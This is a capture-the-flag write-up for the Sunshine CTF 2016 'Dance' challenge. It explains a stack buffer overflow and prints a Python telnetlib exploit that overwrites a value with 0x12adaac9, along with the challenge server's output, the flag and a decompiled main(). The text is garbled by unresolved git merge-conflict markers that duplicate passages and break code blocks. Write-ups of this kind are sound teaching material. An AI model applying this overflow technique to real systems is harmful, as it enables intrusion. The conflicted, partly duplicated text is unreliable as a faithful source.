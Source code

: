 ```yaml
---
title:   "Write-up - Sunshine CTF 2016 - Dance"
date:    2016-03-14 00:00:00
tags:    [Write-up, Sunshine CTF 2016]
summary: "Write-up about Sunshine CTF 2016 - Dance"
---
```


<<<<<<< HEAD
In this challenge, we have a binary file and we need to connect to an IP using Netcat; `nc 4.31.182.242 9001`. We have then the following message:

```
welcome to the pro club. you just paid a door fee and have no respect. earn ur cred on the dancefloor!
give us ur sick dance moves like so:
whip,naenae,whip,whip,naenae<ENTER>

whip,naenae,whip,naenae,whip
do the whip!
   (;P)
 8=/||\_
_/¯    ¯\_
do the naenae
(\)
  \(:O)
   /||\_
_/¯    ¯\_
do the whip!
   (;P)
 8=/||\_
_/¯    ¯\_
do the naenae
(\)
  \(:O)
   /||\_
_/¯    ¯\_
do the whip!
   (;P)
 8=/||\_
_/¯    ¯\_

cool dance! come again!
```

After performing a quick program analysis, we can see that we can perform a [buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow). We will use the following Python code to solve this challenge:

=======
>>>>>>> cc4fa00a9b202369df3fe4638bac04814b41e9db
```
import telnetlib
import struct

x = lambda a: struct.pack('I', a)
host = "4.31.182.242"
port = "9001"

c = telnetlib.Telnet(host, port)
print c.read_until("<ENTER>")
c.write('A'*84)
c.write(x(0x12adaac9))
print c.read_all()
<<<<<<< HEAD
```

We will have then the following message which is the `main()` function of the binary file we have decompiled.

```
=======

>>>>>>> cc4fa00a9b202369df3fe4638bac04814b41e9db
''' OUTPUT:
welcome to the pro club. you just paid a door fee and have no respect. earn ur cred on the dancefloor!
give us ur sick dance moves like so:
whip,naenae,whip,whip,naenae<ENTER>
<<<<<<< HEAD
girl u can dance w the best of em. the pw to our vip lounge is: sun{d4nc3_0n_th3_s7ack}
=======

girl u can dance w the best of em. the pw to our vip lounge is: sun{d4nc3_0n_th3_s7ack}

>>>>>>> cc4fa00a9b202369df3fe4638bac04814b41e9db
cool dance! come again!
'''

''' BONUS:
int main() {
    memset(input, 0x0, 0x50);
    printf("welcome to the pro club.");
    fgets(input, 0x59, stdin);
    while (strlen(input) > 0x0) {
<<<<<<< HEAD
        if (sign_extend_32(*(int8_t *)input) == 0x77) {
            input = input + 0x5;
            do_whip();
        }
        else {
            if (sign_extend_32(*(int8_t *)input) == 0x6e) {
                input = input + 0x7;
                do_naenae();
            }
            else {
                input = input + 0x1;
            }
        }
    }
    if (0x12adaac9 == 0x12adaac9) {
        if (0x0 != 0x0) {
            printf("FLAG FLAG FLAG\n");
        }
    }
    else {
        printf("those dance moves are some dark artsz kid\n");
=======
            if (sign_extend_32(*(int8_t *)input) == 0x77) {
                    input = input + 0x5;
                    do_whip();
            }
            else {
                    if (sign_extend_32(*(int8_t *)input) == 0x6e) {
                            input = input + 0x7;
                            do_naenae();
                    }
                    else {
                            input = input + 0x1;
                    }
            }
    }
    if (0x12adaac9 == 0x12adaac9) {
            if (0x0 != 0x0) {
                    printf("FLAG FLAG FLAG\n");
            }
    }
    else {
            printf("those dance moves are some dark artsz kid\n");
>>>>>>> cc4fa00a9b202369df3fe4638bac04814b41e9db
    }
    printf("\ncool dance! come again!\n");
    return 0x0;
}
'''
```
<<<<<<< HEAD

The flag to solve this challenge is `sun{d4nc3_0n_th3_s7ack}`.
=======
>>>>>>> cc4fa00a9b202369df3fe4638bac04814b41e9db
